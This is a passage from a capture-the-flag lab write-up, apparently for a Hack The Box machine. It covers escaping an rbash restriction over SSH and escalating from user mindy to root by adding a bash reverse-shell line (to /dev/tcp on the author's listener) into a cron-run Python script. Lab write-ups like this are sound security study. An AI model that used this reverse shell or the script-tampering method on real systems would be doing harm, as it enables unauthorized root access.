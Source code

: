 ![](https://i.imgur.com/WytjqDw.png)


Now on my local listener, I have a shell as **mindy**:

![](https://i.imgur.com/RWdDQNA.png)

At first, I thought I don't need this shell since I already have valid creds for SSH.

However, it turned out I have a **rbash** restriction:


![](https://i.imgur.com/hS4cZyq.png)


Using `-t bash`, I can easily escape the restricted environment:

`ssh mindy@10.10.10.51 -t bash`

![](https://i.imgur.com/a0vmVXd.png)


I believe intended way of solving this box was to use the exploit from earlier to escape rbash environment, but I can also escape it using simple `-t bash` flag. 

## Privesc: mindy to root

Checking on `/opt`, I see **tmp.py** file which I usually don't see:

![](https://i.imgur.com/D7Ues4M.png)

Script seemed to be deleting all the files in **/tmp** directory:

![](https://i.imgur.com/L6gnGG4.png)


To check if there are any automated tasks related to this script, I uploaded **pspy32** using wget and Python http server.

I ran pspy after giving it execute permission:

![](https://i.imgur.com/OEjiFQb.png)


I was able to see that the script is being ran by root here: 

![](https://i.imgur.com/n5X34Bn.png)

I added extra line of code that will spawn a reverse shell for me:

`os.system('bash -c "bash -i >& /dev/tcp/10.10.14.17/1337 0>&1"')`

![](https://i.imgur.com/JCZfyj2.png)

Now waiting for a bit, I have reverse shell connection on my local listener as root:

![](https://i.imgur.com/2a69466.png)
